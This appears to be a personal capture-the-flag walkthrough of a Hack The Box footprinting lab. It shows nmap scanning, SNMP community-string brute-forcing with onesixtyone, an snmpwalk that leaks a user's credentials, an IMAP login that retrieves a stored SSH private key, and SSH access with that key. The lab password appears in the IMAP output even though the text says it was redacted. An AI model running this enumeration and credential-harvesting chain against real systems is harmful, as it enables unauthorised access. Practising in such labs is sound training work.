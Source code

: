 ```yaml
---
title: HTB - Footprinting Lab (Hard)
categories: [htb]
tags: [htb]     # TAG names should always be lowercase
---
```


Mainly notes for self...



First we can start off with a routine NMAP scan:

```bash
nmap -sV 10.129.100.246
```

Output:
```bash
$ nmap -sV 10.129.100.246
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-30 19:51 CDT
Nmap scan report for 10.129.100.246
Host is up (0.21s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.13 seconds
```

This shows us that the target is using Linux and has 5 ports open.

When trying to connect to the IMAP service:

```bash
$ openssl s_client 10.129.100.246:imaps
```

Output:
```bash
$ openssl s_client 10.129.100.246:imaps
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 CN = NIXHARD
verify error:num=18:self-signed certificate
verify return:1
depth=0 CN = NIXHARD
verify return:1
... cut ...
$ a LIST "" *                   
a BAD Error in IMAP command received by server.
 ```

It successfully connects to the server but since we don't have any credentials, we can't do much. We'll come back to this command later...

Using the SNMP scanner, onesixtyone, we can try to see if we get any hits:

```bash
$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.100.246
```

Output:
```bash
$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.100.246
Scanning 1 hosts, 3219 communities
10.129.100.246 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
```

We got a hit! We can now use snmpwalk to inspect the backup:

```bash
$ snmpwalk -v2c -c backup 10.129.100.246
```

Output:
```bash
└──╼ [★]$ snmpwalk -v2c -c backup 10.129.100.246
iso.3.6.1.2.1.1.1.0 = STRING: "Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (456143) 1:16:01.43
iso.3.6.1.2.1.1.4.0 = STRING: "Admin <tech@inlanefreight.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "NIXHARD"
iso.3.6.1.2.1.1.6.0 = STRING: "Inlanefreight"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (33) 0:00:00.33
... cut ...
iso.3.6.1.2.1.25.1.7.1.2.1.2.6.66.65.67.75.85.80 = STRING: "/opt/tom-recovery.sh"
iso.3.6.1.2.1.25.1.7.1.2.1.3.6.66.65.67.75.85.80 = STRING: "tom (password)"
iso.3.6.1.2.1.25.1.7.1.2.1.4.6.66.65.67.75.85.80 = ""
iso.3.6.1.2.1.25.1.7.1.2.1.5.6.66.65.67.75.85.80 = INTEGER: 5
iso.3.6.1.2.1.25.1.7.1.2.1.6.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.2.1.7.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.2.1.20.6.66.65.67.75.85.80 = INTEGER: 4
iso.3.6.1.2.1.25.1.7.1.2.1.21.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.3.1.1.6.66.65.67.75.85.80 = STRING: "chpasswd: (user tom) pam_chauthtok() failed, error:"
iso.3.6.1.2.1.25.1.7.1.3.1.2.6.66.65.67.75.85.80 = STRING: "chpasswd: (user tom) pam_chauthtok() failed, err
```

We have found the user and password combo! (I redacted the password so people can't just copy paste). Now we can go back to the IMAP service and have a proper look-around.

```bash
$ openssl s_client 10.129.100.246:imaps
```

Output:
```bash
a LOGIN tom NMds732Js2761
a OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in

$ a LIST "" *
* LIST (\HasNoChildren \UnMarked) "." Notes
* LIST (\HasNoChildren \UnMarked) "." Meetings
* LIST (\HasNoChildren \UnMarked) "." Important
* LIST (\HasNoChildren) "." INBOX
a OK List completed (0.001 + 0.000 secs).

$ a SELECT INBOX
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1636509064] UIDs valid
* OK [UIDNEXT 2] Predicted next UID
a OK [READ-WRITE] Select completed (0.001 + 0.000 secs).

$ a FETCH 1 BODY[]
HELO dev.inlanefreight.htb
MAIL FROM:<tech@dev.inlanefreight.htb>
RCPT TO:<bob@inlanefreight.htb>
DATA
From: [Admin] <tech@inlanefreight.htb>
To: <tom@inlanefreight.htb>
Date: Wed, 10 Nov 2010 14:21:26 +0200
Subject: KEY

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
... cut ...
-----END OPENSSH PRIVATE KEY-----
)
a OK Fetch completed (0.001 + 0.000 secs).
```

We found an OpenSSH private key that can we now most likely use for the SSH port we found at the start of this writeup. First, we can copy that entire key and simply paste it into a file:

```bash
nano ssh_key
Then exit-> save buffer -> choose name and press enter
```

Once we've put the key into a file, we should not forget to change the permissions of the file so we can use it: 

 ```bash
chmod 600 ssh_key
```

Now, logging into the SSH server:

```bash
ssh -i ssh_key tom@10.129.100.246
```

Output: 
```bash
└──╼ [★]$ ssh -i ssh_key tom@10.129.100.246
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 31 May 2025 01:39:51 AM UTC

  System load:  0.0               Processes:               167
  Usage of /:   70.0% of 5.40GB   Users logged in:         1
  Memory usage: 30%               IPv4 address for ens192: 10.129.100.246
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

```
